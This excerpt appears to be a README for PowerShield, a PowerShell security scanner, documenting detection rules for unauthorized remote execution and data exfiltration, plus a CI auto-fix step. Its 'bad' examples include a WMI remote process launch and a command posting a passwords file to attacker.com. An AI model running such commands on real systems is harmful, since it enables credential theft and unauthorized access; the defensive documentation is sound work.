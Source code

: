 **Example**:
```powershell
# ❌ Bad - Remote execution without proper authorization
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe" -ComputerName "target-server"

# ✅ Good - Use authorized remote management
Enter-PSSession -ComputerName "authorized-server" -ConfigurationName "RestrictedEndpoint"
```

#### 52. Data Exfiltration Detection
**Severity**: Critical  
**MITRE ATT&CK**: T1048.003, T1041, T1567.001  
**Description**: Detects data exfiltration to external locations

**Patterns Detected**:
- DNS tunneling (DNS queries in loops)
- HTTP POST with large data
- Pastebin/GitHub Gist uploads
- Cloud storage uploads (Dropbox, S3, Azure Blob)
- Email with attachments
- Data compression before upload

**Example**:
```powershell
# ❌ Bad - Exfiltrates data to external site
$data = Get-Content "C:\Sensitive\passwords.txt"
Invoke-WebRequest -Uri "http://attacker.com/upload" -Method POST -Body $data

# ✅ Good - Use authorized data transfer methods
# Transfer data through approved channels with proper logging
```

For detailed examples of all rules, see the [test scripts](tests/TestScripts/) organized by category:
- [PowerShell-specific rules](tests/TestScripts/powershell/)
- [Network security rules](tests/TestScripts/network/)
- [File system security rules](tests/TestScripts/filesystem/)
- [Registry security rules](tests/TestScripts/registry/)
- [Data security rules](tests/TestScripts/data/)

## 🤖 AI Auto-Fix

PowerShield includes an AI-powered auto-fix action that can automatically remediate security violations:

```yaml
- name: Apply AI Fixes
  uses: ./actions/copilot-autofix
  with:
    github-token: ${{ secrets.GITHUB_TOKEN }}
    violations-file: 'powershield-results.json'
    apply-fixes: true
    confidence-threshold: 0.8
```
